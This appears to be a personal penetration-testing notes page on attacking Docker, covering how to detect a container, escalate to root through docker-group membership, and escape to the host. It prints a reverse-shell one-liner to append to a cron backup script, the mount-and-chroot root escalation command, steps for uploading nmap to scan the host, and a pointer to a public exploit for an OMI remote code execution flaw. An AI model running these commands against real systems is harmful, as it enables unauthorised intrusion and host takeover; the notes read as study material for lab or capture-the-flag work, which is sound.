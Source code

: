 ```yaml
---
title: Docker hacking 🐳
---
```

## Understand how docker works

Go to the [Intro to Docker 🐳](/notes/Info/intro_to_docker.md) note.

## .dockerenv
- If we find a `.dockerenv` file in the root directory, we are running inside a docker container

![](Pasted%20image%2020240215214817.png)

- If we find a `.sh` on the `/opt/backups` directory like a backup script that might be running a cron job, we can try to write a reverse shell to it:

```shell
echo "bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1" >> backup.sh
```

## Being part of the docker group

- If we find out that our victim user belongs to the docker group, we can do the following (based on [GTFObins](https://gtfobins.github.io/gtfobins/docker/)):

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![](Pasted%20image%2020240417222812.png)

![](Pasted%20image%2020240417222753.png)

## Escaping a container

- Once we are root by exploiting a capability vulnerability as example, we have to pivot to the host of the container as follows:

- Run `ifconfig` to see if we are connected to the eth0
- Run `arp -a` to discover other hosts on the network

```shell
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:d2:ff:62:fe [ether] on eth0
```

- So now we know that `172.17.0.1` is our host
- Now we want to perform an nmap scan to it, so we will upload a [nmap binary](https://nmap.org/download.html#linux-rpm)
	- Download the source code one
	- Install with the following:

```shell
bzip2 -cd nmap-7.94.tar.bz2 | tar xvf -
cd nmap-7.94
./configure
make
su root
make install
```

- If you haver dependency errors try [this nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
	- With this one just upload it to the container and the add it execution permissions

- Now run:

```shell
./nmap -Pn -T4 -p- 172.17.0.1 --min-rate 5000 -vv

Host is up, received arp-response (-0.0014s latency).
Scanned at 2024-04-21 17:17:26 UTC for 39s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 64
80/tcp   open   http    syn-ack ttl 64
5985/tcp closed unknown reset ttl 64
5986/tcp open   unknown syn-ack ttl 64
MAC Address: 02:42:D2:FF:62:FE (Unknown)

Read data files from: /etc
Nmap done: 1 IP address (1 host up) scanned in 39.69 seconds
           Raw packets sent: 196632 (8.652MB) | Rcvd: 38 (1.620KB)
```

- The port 5986 is for Microsoft's [Open Management Infraestructure (OMI)](https://github.com/microsoft/omi) service for remote configuration management of *nix VMs in Azure. Our host must be a simulation of an Azure Linux VM.
- There is a [CVE for an unauthenticated RCE](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647), and a [public exploit](https://github.com/AlteredSecurity/CVE-2021-38647) for OMI we can test.
	- You can check the exploitation in this notes in [CVE-2021-38647](/notes/Exploits/CVE-2021-38647.md)
